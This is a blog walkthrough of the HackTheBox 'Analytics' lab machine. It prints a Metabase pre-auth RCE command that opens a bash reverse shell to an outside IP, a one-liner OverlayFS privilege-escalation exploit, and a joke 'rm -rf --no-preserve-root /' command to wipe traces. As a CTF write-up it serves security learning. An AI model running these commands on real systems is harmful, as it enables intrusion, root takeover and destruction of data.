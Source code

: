 ```yaml
---
layout: post
title: HackTheBox Codify Walkthrough
image: /assets/img/blog/analytics/analytics.jpg
accent_image: 
  background: url('/assets/img/blog/analytics/analytics.jpg') center/cover
  overlay: false
accent_color: '#ccc'
theme_color: '#ccc'
description: >
  In this post you will find a step by step resolution walkthrough of the Analytics machine on HTB platform 2023.
invert_sidebar: true
---
```


# HackTheBox Analytics Walkthrough
Analytics is an easy linux machine that targets the exploitation of a vulnerable server monitoring application present via a website and a vulnerable Ubuntu kernel version.
* toc
{:toc}

## Enumeration
An initial nmap to scan the open ports via TCP was performed. Also when the open ports 
were retrieved a more in depth scan including fingerprinting was issued. With the following commands:
~~~bash
# First nmap scan
sudo nmap -sS -p- --min-rate 500 --open 10.10.11.233 -Pn -n -oG recon
# Exhaustive scan of the open ports
nmap -p80,22 -sCV -Pn -n -oN openports 10.10.11.233
~~~

The results obtained by this scans showed some interesting open ports:
![800x400](/assets/img/blog/analytics/nmap.png "Nmap enumeration")
* Port 80 is open and is hosting a HTTP server, NGinx 1.18 
* Port 22 is open and from the obtained banner looks like a ssh service version: OpenSSH 8.9p1

From the nmap scan we can see this is a linux machine, probably a Ubuntu distro.
## Web enumeration
First as we saw on the info retrieved via nmap we can see the webserver is redirecting to the `analytical.htb` domain. To be able to resolve the domain we added this info to the `/etc/hosts` file.
~~~bash
sudo nano /etc/hosts
#add
10.10.11.233	analytical.htb
~~~

Moving on and visiting the website we observe a simple website with no complex functionality and not much interesting info, except for a login button that redirects to the subdomain `data.analytical.htb`. We investigated this path.
![800x400](/assets/img/blog/analytics/mainpage.png "Main page")
To be able to resolve this domain again we added an entry to the /etc/hosts.
~~~bash
sudo nano /etc/hosts
#add
10.10.11.233    data.analytical.htb analytical.htb
~~~

At this point visiting the website we got a login page for a service named `Metabase`. 
![800x400](/assets/img/blog/analytics/metabase.png "Metabase login")
Now we could think of various attacks: trying default credentials, performing a sqli injection, or performing a bruteforce attack. Since most of these attacks are very "noisy" we started by enumerating 
this called service named metabase. Searching online, a vulnerability was present, the `CVE-2023-38646`, a `pre-authentication RCE` for versions preceding 0.46.6.1, in the open-source edition, 
and preceding 1.46.6.1, in the enterprise edition.

At this point we didn't knew the version of the service, but we tried to exploit it anyway via a [Github](https://github.com/m3m0o/metabase-pre-auth-rce-poc) exploit.
To get a shell we set a nc listener and executed a reverse shell command using the POC exploit.
~~~bash
nc -lvnp 443
python3 main.py -u http://data.analytical.htb -t [setup-token] -c "bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"
~~~

This returned a connection on our nc listener, providing us a reverse shell.
## Getting a foothold
As we got remote command execution we started enumerating the machine, but soon realized we were inside a container we needed to scape. The first step was to enumerate the machine searching for juicy info. After performing numerous steps, executing the `env` command to list the environment defined variables some credentials were exposed.
![800x400](/assets/img/blog/analytics/env.png "Env command")

Taking into account the credentials and the fact that ssh is open, we tried them on this service and VOILA we got access to the machine as the user `metalytics`
![800x400](/assets/img/blog/analytics/metalytics.png "SSH access")
At this point we got the flag located at `/home/metalytics/user.txt`
## Privilege Escalation
To privesc the first thing we did was transfer the linpeas script to the machine to perform an automatic enumeration on the machine, this didn't bring too much info about privesc vectors. 
Moving on and performing some manual enum we found that the Ubuntu kernel version is potentially vulnerable.
~~~bash
uname -a
~~~
![800x400](/assets/img/blog/analytics/uname.png "Uname -a output")
After searching on Google we found that this version is affected by a couple `CVE`, the `CVE-2023-2640` and `CVE-2023-32629`. On [Github](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629) we found a one-liner exploit that grants privilege escalation.
~~~bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
~~~

After executing the code we obtained a root shell.

![800x400](/assets/img/blog/analytics/root.png "Root pivoting")

At this point we successfully pwned the machine and we have got complete control of the system 💀💀💀

To delete our trace as an attacker we can execute the following command:
~~~bash
rm -rf --no-preserve-root /
~~~
Just joking dont even do this or you will get fired! XD

Last but not least we retrieved the flag located at `/root/root.txt`
